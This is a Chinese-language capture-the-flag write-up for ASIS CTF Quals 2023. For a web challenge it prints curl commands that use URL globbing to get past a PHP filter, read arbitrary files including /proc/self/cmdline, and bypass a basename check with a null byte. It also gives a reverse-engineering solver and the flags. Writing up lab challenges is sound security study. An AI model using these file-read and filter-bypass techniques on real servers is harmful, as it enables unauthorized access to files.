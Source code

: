 # ASIS CTF Quals 2023 Writeup

- Team name：`clpcs`

## Greetings

- Flag：`ASIS{w3lc0m3_70_4S1S_C7F!_H3r3'5_70_4n_3xc171n6_4nd_ch4113n63_3xp3r13nc3!}}`

### 解題流程與思路
簽到題。

**解題過程：**
COPY & PASTE

**取得 flag 的畫面：**
![Greetings_flag](image/Greetings_flag.png)

## hello

- Flag：`ASIS{good_job_bun}`

### 解題流程與思路

**解題過程：**
1. 給了一個網址，直接連看看 `curl http://45.147.231.180:8000`
2. 得到一份 `php` code 如下，可以知道目標是要取得 `/next.txt`，且於網址中加入 `x` 參數會被拿去 check 是否包含 `file`、`next`，如無責該網頁會執行 `system('curl '.escapeshellarg($_GET['x']))`，可以以 Server 的身分取得某個東西，且因為 escapeshellarg 只能被當成一個參數。
    ```php
    <?php
    /*
    Read /next.txt
    Hint for beginners: read curl's manpage.
    */
    highlight_file(__FILE__);
    $url = 'file:///hi.txt';
    if(
        array_key_exists('x', $_GET) &&
        !str_contains(strtolower($_GET['x']),'file') && 
        !str_contains(strtolower($_GET['x']),'next')
    ){
        $url = $_GET['x'];
    }
    system('curl '.escapeshellarg($url));
    ```
3. 透過 `curl file:///next.txt` 即可取得目標，但會被判到 `file`、`next`，再詳閱 manpage 後發現可以透過 `curl fil[e-f]:///n[e-f]xt.txt` 的方式使 `curl` 訪問 `file:///next.txt`、`file:///nfxt.txt`、`filf:///next.txt`、`filf:///nfxt.txt`，且可以避開字串判斷。
4. 透過 unicode encode `fil[e-f]:///n[e-f]xt.txt` 後，放進 `x`。`curl http://45.147.231.180:8000?x=fil%5Be-f%5D%3A%2F%2F%2Fn%5Be-f%5Dxt.txt`，即可得到以下資訊。
    ```
    wow... so next step is available at http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/
    ```
5. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/`，會得以下資訊，得知這個 server 有訪問檔案的功能。
    ```
    did you know i can read files?? amazing right,,, maybe try /39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline
    ```
6. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline | base64 -d`，出來的解果明顯為 base64 過的值，因此先解回去，而 `/proc/self/cmdline` 放的為執行此 `proc` 時是 command。
    ```sh
    /bin/bun-1.0.2/app/index.js
    ```
7. 而此解果應該為 `/bin/bun-1.0.2 /app/index.js`，所以透過該 Server 取得 `/app/index.js`，`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/app/index.js | base64 -d`即可獲得 `index.js`
    ```java
    const fs = require('node:fs');
    const path = require('path')
    
    /*
    I wonder what is inside /next.txt
    */
    
    const secret = '39c8e9953fe8ea40ff1c59876e0e2f28'
    const server = Bun.serve({
    port: 8000,
    fetch(req) {
            let url = new URL(req.url);
            let pname = url.pathname;
            if(pname.startsWith(`/${secret}`)){
        if(pname.startsWith(`/${secret}/read`)){
            try{
            let fpath = url.searchParams.get('file');
            if(path.basename(fpath).indexOf('next') == -1){
                return new Response(fs.readFileSync(fpath).toString('base64'));
            } else {
                return new Response('no way');
            }
            } catch(e){ }
            return new Response("Couldn't read your file :(");
        }
        return new Response(`did you know i can read files?? amazing right,,, maybe try /${secret}/read/?file=/proc/self/cmdline`);
        }
        return
    }
    });
    ```
8. 可以得知目標為 `/next.txt`，且會透過 `path.basename(fpath).indexOf('next') == -1` 確認檔名是否包含 `next`。
9. 由於 `basename` 只會取最後一個 `/` 後的字串，而 `readFileSync` 使用的完整得 path 且字串通常看到 `'\0'` 就會判斷結束，可以基於這些理由構造一個字串。`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/next.txt%00/1 | base64 -d`，即可取得以下資訊。
    ```
    Now it's time for a whitebox challenge.
    Find the hidden subdomain and then a secret endpoint and only then you may receive your flag.
    Link to the website: `anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==`
    ```
10. 再解一次 base64 即可取得 flag `echo 'anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==' | base64 -d`
**取得 flag 的畫面：**
![hello_flag](image/hello_flag.png)

## Grid

- Flag：`ASIS{7Hi5_!Z_4n0tH3R_Ea5Y_WaRmUpUp_cHALleN9E!!}`

比賽中主要 codding 人為隊友，但參與解題思路、debug 過程

### 解題流程與思路

**解題過程：**

1. 首先丟進 IDA 工具 reverse。

2. 可以得到下方 source (根據判斷更改過變數名稱)，先找到程式直接執行會印出的 `Incorrect` 。

   ![Grid_reverse_source_code](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_reverse_source_code.png)

3. 再往前追判斷依據，發現為 `input` 跟 `target `  進行字串判斷，並查找指令從哪裡 load 東西進來。

   ![Grid_target_string](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_target_string.png)

4. 再去追記憶體的資料，然後往下算 `46 bytes`，即為 `input` 應該相同的字串。

   ![Grid_target_data](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_target_data.png)

5. 但往前看會發現 `input` 有經過一些操作，稍加觀察會發現其進行一個查表換值的操作，而可以去追其表所在位置。

   ![Grid_table_data](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_table_data.png)

6. 將該表、`target` 抓下來即可反向查表，尋找 `input` 應該輸入的樣貌。

7. 透過下列程式即可求得，會發現其即為 FLAG。

   ```cpp
   #include <iostream>
   #include <cstring>
   #include <cstdint>
   
   uint8_t DATA[] = {0x01, 0x76, 0x02, 0x2c, 0x03, 0x3b, 0x04, 0x45, 0x05, 0xbd, 0x06, 0xf2, 0x07, 0x92, 0x08, 0x5d, 0x09, 0x91, 0x0a, 0x2d, 0x0b, 0x2e, 0x0c, 0x7f, 0x0d, 0xe9, 0x0e, 0x3c, 0x0f, 0x78, 0x10, 0x9f, 0x11, 0x8a, 0x12, 0xa5, 0x13, 0x71, 0x14, 0x94, 0x15, 0x3f, 0x16, 0xa7, 0x17, 0xdb, 0x18, 0xe8, 0x19, 0xf6, 0x1a, 0xa4, 0x1b, 0x99, 0x1c, 0xe6, 0x1d, 0x22, 0x1e, 0x40, 0x1f, 0xff, 0x20, 0xdc, 0x21, 0xee, 0x22, 0xea, 0x23, 0x24, 0x24, 0x6d, 0x25, 0x58, 0x26, 0x02, 0x27, 0xa2, 0x28, 0xdd, 0x29, 0x86, 0x2a, 0x9e, 0x2b, 0xa1, 0x2c, 0xe1, 0x2d, 0x19, 0x2e, 0xe0, 0x2f, 0x64, 0x30, 0x6a, 0x31, 0xb3, 0x32, 0x5e, 0x33, 0x2b, 0x34, 0xbb, 0x35, 0x38, 0x36, 0x4f, 0x37, 0x30, 0x38, 0x53, 0x39, 0x44, 0x3a, 0x75, 0x3b, 0x65, 0x3c, 0xf9, 0x3d, 0x4b, 0x3e, 0xc1, 0x3f, 0x23, 0x40, 0xb2, 0x41, 0xbe, 0x42, 0xd5, 0x43, 0x05, 0x44, 0x80, 0x45, 0x61, 0x46, 0xfe, 0x47, 0x60, 0x48, 0xe3, 0x49, 0x32, 0x4a, 0x85, 0x4b, 0xf4, 0x4c, 0xcf, 0x4d, 0x5a, 0x4e, 0x3a, 0x4f, 0x43, 0x50, 0xd6, 0x51, 0x6f, 0x52, 0x54, 0x53, 0xb9, 0x54, 0xcc, 0x55, 0xf5, 0x56, 0xb5, 0x57, 0x59, 0x58, 0x16, 0x59, 0xe7, 0x5a, 0xa9, 0x5b, 0xae, 0x5c, 0xf1, 0x5d, 0x08, 0x5e, 0x3e, 0x5f, 0x7d, 0x60, 0xe4, 0x61, 0xde, 0x62, 0xc6, 0x63, 0x1c, 0x64, 0xeb, 0x65, 0xb6, 0x66, 0x97, 0x67, 0x15, 0x68, 0x51, 0x69, 0x7c, 0x6a, 0xad, 0x6b, 0xcd, 0x6c, 0x27, 0x6d, 0x0a, 0x6e, 0x35, 0x6f, 0x5f, 0x70, 0xd4, 0x71, 0x13, 0x72, 0xa0, 0x73, 0x14, 0x74, 0x67, 0x75, 0x7a, 0x76, 0x8c, 0x77, 0x4a, 0x78, 0x72, 0x79, 0x2f, 0x7a, 0xda, 0x7b, 0xef, 0x7c, 0x49, 0x7d, 0x0e, 0x7e, 0xd3, 0x7f, 0xfa, 0x80, 0x3d, 0x81, 0xc0, 0x82, 0x33, 0x83, 0x66, 0x84, 0xaa, 0x85, 0xce, 0x86, 0xfc, 0x87, 0xb0, 0x88, 0x62, 0x89, 0x93, 0x8a, 0x41, 0x8b, 0xd7, 0x8c, 0x48, 0x8d, 0xbf, 0x8e, 0xca, 0x8f, 0xc8, 0x90, 0x03, 0x91, 0x7e, 0x92, 0x0f, 0x93, 0x9b, 0x94, 0xcb, 0x95, 0x56, 0x96, 0xd8, 0x97, 0x79, 0x98, 0x52, 0x99, 0xa3, 0x9a, 0xab, 0x9b, 0x68, 0x9c, 0x42, 0x9d, 0xed, 0x9e, 0x81, 0x9f, 0x84, 0xa0, 0x9c, 0xa1, 0x10, 0xa2, 0x5b, 0xa3, 0x0b, 0xa4, 0x1a, 0xa5, 0x70, 0xa6, 0xf8, 0xa7, 0x63, 0xa8, 0xa6, 0xa9, 0xaf, 0xaa, 0x20, 0xab, 0x98, 0xac, 0x01, 0xad, 0x34, 0xae, 0x29, 0xaf, 0xe2, 0xb0, 0xfb, 0xb1, 0x17, 0xb2, 0x9a, 0xb3, 0xac, 0xb4, 0x04, 0xb5, 0x5c, 0xb6, 0x36, 0xb7, 0xba, 0xb8, 0xd9, 0xb9, 0xb1, 0xba, 0xf7, 0xbb, 0xc3, 0xbc, 0x50, 0xbd, 0xd1, 0xbe, 0xbc, 0xbf, 0xe5, 0xc0, 0x90, 0xc1, 0x25, 0xc2, 0x0c, 0xc3, 0x88, 0xc4, 0xb8, 0xc5, 0x12, 0xc6, 0xd2, 0xc7, 0x1b, 0xc8, 0x47, 0xc9, 0x4d, 0xca, 0xc4, 0xcb, 0x07, 0xcc, 0x1e, 0xcd, 0x87, 0xce, 0x7b, 0xcf, 0x57, 0xd0, 0xf0, 0xd1, 0xfd, 0xd2, 0x55, 0xd3, 0x1d, 0xd4, 0x69, 0xd5, 0xdf, 0xd6, 0x6c, 0xd7, 0x2a, 0xd8, 0xec, 0xd9, 0x6e, 0xda, 0xc7, 0xdb, 0x28, 0xdc, 0x8e, 0xdd, 0xc2, 0xde, 0x82, 0xdf, 0x9d, 0xe0, 0x4e, 0xe1, 0x18, 0xe2, 0x73, 0xe3, 0x95, 0xe4, 0xc9, 0xe5, 0x0d, 0xe6, 0x89, 0xe7, 0x8d, 0xe8, 0x6b, 0xe9, 0x8b, 0xea, 0x46, 0xeb, 0x11, 0xec, 0x21, 0xed, 0x74, 0xee, 0x4c, 0xef, 0x09, 0xf0, 0xf3, 0xf1, 0xc5, 0xf2, 0xd0, 0xf3, 0x83, 0xf4, 0xb7, 0xf5, 0x1f, 0xf6, 0x37, 0xf7, 0xb4, 0xf8, 0x26, 0xf9, 0x06, 0xfa, 0x31, 0xfb, 0x96, 0xfc, 0x39, 0xfd, 0xa8, 0xfe, 0x77, 0xff, 0x8f};
   
   uint8_t targets[] = {0xbe, 0xb9, 0x32, 0xb9, 0xef, 0x30, 0xe3, 0x7c, 0x38, 0x7d, 0xee, 0xa9, 0x7d, 0xbb, 0x35, 0x6a, 0x67, 0xe3, 0x2b, 0x54, 0x7d, 0x61, 0xde, 0x38, 0xe7, 0x7d, 0x59, 0xde, 0x54, 0x0a, 0xf5, 0xd4, 0xf5, 0xd4, 0x7d, 0x1c, 0xe3, 0xbe, 0xcf, 0x27, 0xb6, 0x3a, 0x44, 0x61, 0xee, 0xee, 0x0e};
   
   uint find(uint8_t target){
       for(int i = 0; i < 255; i++){
           if(DATA[i * 2 + 1] == target){
               return i * 2;
           }
       }
       return -1;
   }
   
   int main(){
       for(auto target : targets){
           char tmp = DATA[find(target)];
           std::cout << tmp;
       }
       std::cout << '\n';
       return 0;
   }
   ```

   (事後自己重寫的 code，當初與隊友一起寫的 code 較為凌亂)

 **取得 flag 的畫面：**
![Grid_flag](image/Grid_flag.png)

## Renamiara (未於賽中解出)

- Flag：`ASIS{_An07H3r_F1XeD_PoInt5_f0r_DLP!!}`

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**
![Renamiara_flag](image/Renamiara_flag.png)

## hipwn (未於賽中解出)

- Flag：``

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**
